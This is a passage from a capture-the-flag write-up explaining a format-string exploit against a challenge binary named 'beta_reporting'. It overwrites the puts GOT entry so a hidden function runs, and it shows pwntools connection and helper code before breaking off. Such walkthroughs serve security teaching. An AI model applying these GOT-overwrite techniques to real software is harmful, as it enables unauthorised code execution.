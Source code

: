 
This time we will be going with the puts got address `0x804b024`

### Finally the actual code

After so much explaining we finally have all the parts need to exploit the binary. Lets recap:
1. We want to run the magicfunction
2. Put a string format in the `makereport` function
3. Put the *puts got address* we want to overwrite in the username of the `viewreport` 
4. Give the id to our report and trigger the vulnerability in the printf in the `viewreport` and write the address of `unknownfunction`
5. When call puts , we get a free flag!

So first using pwntools we start some basic set up for local debug and testing and finally the solution

```python
from pwn import *

LOCAL = False
GDB = False

context.binary = "./beta_reporting"
context.terminal =['tmux','splitw','-h']
# initial setup
if GDB and LOCAL:
    p = gdb.debug(context.binary.path, gdbscript='''
    init-pwndbg
    continue
    ''')
elif LOCAL:
    p = process(context.binary.path)
else:
    p = remote("yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg",30121)
```

Next we code the helper function to make our lives abit easier
```python
# helper functions
def makereport(report):
    p.clean()
    p.sendline(str(1))
    p.clean()
    p.sendline(report)
    log.info(p.recv())

def viewreport(name,reportno):
    p.clean()
    p.sendline(str(2))
    p.clean()
    p.sendline(name)
    p.clean()
    p.sendline(reportno)
```
Next we craft our exploit with `fmtstr_payload` a pwntool function that helps to create string format. 
